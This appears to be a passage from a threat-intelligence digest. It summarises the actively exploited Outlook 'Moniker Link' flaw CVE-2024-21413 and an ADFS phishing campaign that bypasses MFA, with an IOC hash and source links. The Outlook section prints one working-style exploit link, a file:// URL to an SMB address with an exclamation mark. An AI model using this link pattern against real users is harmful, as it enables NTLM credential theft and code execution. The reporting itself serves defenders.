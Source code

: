 ### IOC
SHA-256:
*   19d87910d1a7ad9632161fd9dd6a54c8a059a64fc5f5a41cf5055cd37ec0499d

**Original link:** https://www.microsoft.com/en-us/security/blog/2025/02/06/code-injection-attacks-using-publicly-disclosed-asp-net-machine-keys/

## Critical RCE bug in Microsoft Outlook now exploited in attacks
### Summmary
A critical remote code execution (RCE) vulnerability in Microsoft Outlook, tracked as CVE-2024-21413, is being actively exploited in attacks. The vulnerability exists because of improper input validation when opening emails with malicious links. Attackers can bypass Protected View and open malicious Office files in editing mode, gaining remote code execution capabilities. The vulnerability affects multiple Office products, including Microsoft Office LTSC 2021, Microsoft 365 Apps for Enterprise, Microsoft Outlook 2016, and Microsoft Office 2019. Successful exploitation can lead to the theft of NTLM credentials and the execution of arbitrary code via maliciously crafted Office documents. CISA has added the vulnerability to its Known Exploited Vulnerabilities (KEV) catalog and has mandated that federal agencies secure their networks by February 27. Private organizations are also advised to prioritize patching this flaw.

### Technical Details
The CVE-2024-21413 vulnerability, also known as Moniker Link, allows threat actors to bypass built-in Outlook protections for malicious links embedded in emails using the `file://` protocol. This is achieved by adding an exclamation mark to URLs pointing to attacker-controlled servers. For example, an attacker might use a link like `<a href="file:///\\10.10.111.111\test\test.rtf!something">CLICK ME</a>` to exploit the vulnerability. Microsoft has warned that the Preview Pane is an attack vector, allowing successful exploitation even when previewing maliciously crafted Office documents. Successful attacks can result in the theft of NTLM credentials and the execution of arbitrary code via maliciously crafted Office documents.

The attack involves exploiting how Outlook handles file URLs, particularly those using the `file://` protocol. By adding an exclamation mark and random text after the file extension, attackers can bypass security checks that would normally prevent the execution of files from untrusted sources. When a user clicks on a maliciously crafted link or even previews an email containing such a link, Outlook attempts to access the specified file. Due to the vulnerability, this can lead to the execution of arbitrary code on the user's system.

### Recommendations
Federal agencies and private organizations are advised to prioritize patching this flaw to block ongoing attacks.

**Original link:** https://www.bleepingcomputer.com/news/security/critical-rce-bug-in-microsoft-outlook-now-exploited-in-attacks/

## Targeting Microsoft ADFS How Phishing Campaigns Bypass Multi-Factor Authentication to Enable Account Takeover
### Summmary
This report describes an ongoing phishing campaign targeting organizations using Microsoft Active Directory Federation Services (ADFS). The attackers use spoofed ADFS login pages to steal credentials and bypass multi-factor authentication (MFA). The campaign leverages social engineering and technical exploitation to compromise ADFS accounts, enabling lateral phishing and financially motivated attacks. The phishing emails mimic notifications from the organization’s IT help desk, prompting users to click on links that redirect them to fake ADFS login pages. These pages collect credentials and one-time passwords (OTPs). The attackers personalize the phishing pages to match the organization’s specific MFA setup. The compromised accounts are then used for reconnaissance, creating mail filter rules, and lateral phishing. The campaign has targeted over 150 organizations across various industries and geographic regions, with a focus on the education sector.
